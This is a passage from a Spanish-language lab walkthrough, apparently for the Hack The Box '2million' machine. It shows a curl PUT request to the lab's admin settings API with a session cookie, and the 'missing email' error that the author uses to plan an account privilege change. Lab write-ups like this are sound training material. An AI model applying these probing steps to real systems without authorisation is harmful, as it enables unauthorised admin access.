 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-30 153937.png" alt=""><figcaption></figcaption></figure>

Veremos varias cosas interesantes, vamos aprovechar esto para probar a ver que nos devuelve el `update`:

```shell
apt install jq
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" \
  -H "Content-Type: application/json" \
  -H "Cookie: PHPSESSID=<COOKIE_SESSION>" \
  -d '{}' | jq
```

Info:

```
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Ya sabemos como rellenar el contenido para que funcione, por lo que haremos lo siguiente, al registrar el email de nuestro usuario tendremos que ponerlo en ese parametro `email`:

